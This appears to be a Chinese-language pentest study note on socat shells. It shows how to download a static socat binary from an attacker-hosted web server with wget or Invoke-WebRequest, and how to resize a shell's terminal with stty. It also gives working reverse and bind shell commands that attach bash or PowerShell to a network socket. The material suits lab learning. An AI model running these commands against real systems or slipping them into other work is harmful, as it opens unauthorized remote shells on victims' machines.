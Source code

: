 3. Socat
    > [color=#1a6fa8] `Linux targets only`<br><font color=#FF0000>Socat shell在Windows上並不會比netcat shell來的穩定。</font><br> 在使用這個方法前必須先將[socat static compiled binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true)上傳到目標機上，簡單的實作方法是在攻擊機上擁有socat binary的資料夾中開啟webserver後再從netcat shell下載檔案。<br>`sudo python -m http.server 80`<br>在Linux上下載檔案可用curl或wget:<br>`wget <LOCAL-IP>/socat -O /tmp/socat`<br> 在Windows上可透過Powershell來達成，使用的是Invoke-WebRequest或是一個webrequest system class(取決於Powershell的版本):<br>`Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe`<br>
:::info
如果要使用會覆蓋掉整個畫面的text editor(像是vim, nano)，在一般的terminal中會自動的變更，但在Bind/Reverse shell中必須手動設置。<br>做法如下:<br>打開一個新的terminal後輸入`stty -a`，接著會收到很大量的內容，我們的目標是<font color=#FF0000>**rows**</font>和<font color=#FF0000>**cols**</font>後的值，接著回到bind/reverse shell中，輸入`stty rows <number>`和`stty cols <number>`(將先前看到的值和<number>交換)。<br>這會改變terminal的width和height，這樣就能正確的開啟text editors。
:::

## Socat
> Socat is a connector between two points.

### Reverse shell
:::info
從攻擊機開始監聽後由目標機連回。
:::
**<font color=#FF0000>Attacker</font>** `Linux和Windows都適用`
```shell=
socat TCP-L:<port> - #和nc -lvnp <port>一樣
```
**<font color=#FF0000>Target</font>**
`Windows`
```shell=
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```
這裡的pipes能強制powershell(或cmd)使用Unix系統的標準輸入和輸出。
`Linux`
```shell=
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
```

### Bind shell
:::info
從目標機開始監聽後由攻擊機連回
:::
**<font color=#FF0000>Target</font>**
`Linux`
```shell=
socat TCP-L:<PORT> EXEC:"bash -li"
```
`Windows`
```shell=
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```
**<font color=#FF0000>Attacker</font>** `Linux and Windows`
```shell=
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
